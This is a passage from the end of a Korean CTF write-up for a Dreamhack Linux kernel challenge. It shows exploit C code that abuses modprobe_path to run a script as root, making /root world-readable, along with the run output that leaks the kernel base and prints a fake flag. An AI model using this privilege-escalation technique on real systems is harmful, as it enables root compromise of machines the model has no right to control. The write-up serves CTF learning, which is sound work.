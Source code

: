 ```c
                if(index > 2)
                {
                    printf("trigger modprobe\n");
                    break;
                }
            }
        }
    }

    // trigger modprobe
    system("printf \"\\xff\\xff\\xff\\xff\" > /tmp/trigger");
    system("chmod 777 /tmp/trigger");
    system("printf \"#!/bin/sh\n chmod -R 777 /root\" > /tmp/x");
    system("chmod +x /tmp/x");
    system("/tmp/trigger");
    system("cat /root/flag");
    return 0;
}
```

이렇게 해서 `/root/flag`의 읽기 권한을 추가했고, 플래그를 읽을 수 있었다.  

```bash
/ $ ./exploit 
found kernel base: ffffffffb6000000
modprobe_path: ffffffffb7256f40
found pid: 742f
get profile status: 0
0 th index clear
found pid: 706d
get profile status: 0
1 th index clear
found pid: 782f
get profile status: 0
2 th index clear
trigger modprobe
c
/tmp/trigger: line 1: ����: not found
DH{FAKEFLAG}
```

## **Conclusion**

새로운 함수를 알았고, 새로운 경험을 했다. 저 함수를 실제 환경에서 얼마나 쓰는지는 모르겠지만, 하나 더 알아가는 기분이었다. 

전수조사를 통해 kaslr를 우회하는 경험도 재미있었다. 

## **References**

+ <https://dreamhack.io/wargame/challenges/399>
+ <https://github.com/theori-io/ctf/blob/master/2021/linectf/LINE%20CTF%202021%20Write%20Up%20-%20The%20Duck.pdf>